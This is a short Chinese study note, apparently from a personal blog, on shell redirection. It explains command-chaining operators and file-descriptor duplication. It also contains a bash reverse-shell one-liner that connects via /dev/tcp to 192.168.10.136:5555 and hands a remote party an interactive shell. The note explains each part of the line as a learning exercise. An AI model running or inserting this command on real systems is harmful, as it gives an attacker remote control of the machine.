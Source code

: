 ```yaml
---
title: 反弹shell
date: 2023-04-24 17:12:51
tags:
---
```




# cmd
& 和||前后的命令无论真假都全部执行
&&和|前命令为真，后命令才执行


# 反弹shell
`bash -i >& /dev/tcp/192.168.10.136/5555 0>&1`  这段代码是一个bash命令，用于在一个交互式的shell中执行命令。

1. `bash -i` 启动一个交互式的shell，即可以接受用户输入的shell

2. `>& /dev/tcp/192.168.10.136/5555`：将标准输出和标准错误重定向到一个TCP连接，连接的目标地址是192.168.10.136，端口号是5555。这意味着shell中执行的任何命令的输出都会发送到这个地址。

3. `0>&1` 将标准输入重定向到标准输出，即从TCP连接中读取输入。这意味着shell可以接受从这个地址发送过来的命令。

综上，这段代码的作用是创建一个反向shell，即在目标机器上运行一个shell，然后通过网络连接将其控制权交给攻击者。这是一种常见的渗透测试和黑客攻击的技术，可以让攻击者在目标机器上执行任意命令。

&>和>&含义相同都是：都是将标准错误输出和标准输出重定向

# 文件描述符的复制

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此 0<&1 和 0>&1 是完全等价的（读/写方式打开对其没有任何影响）**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

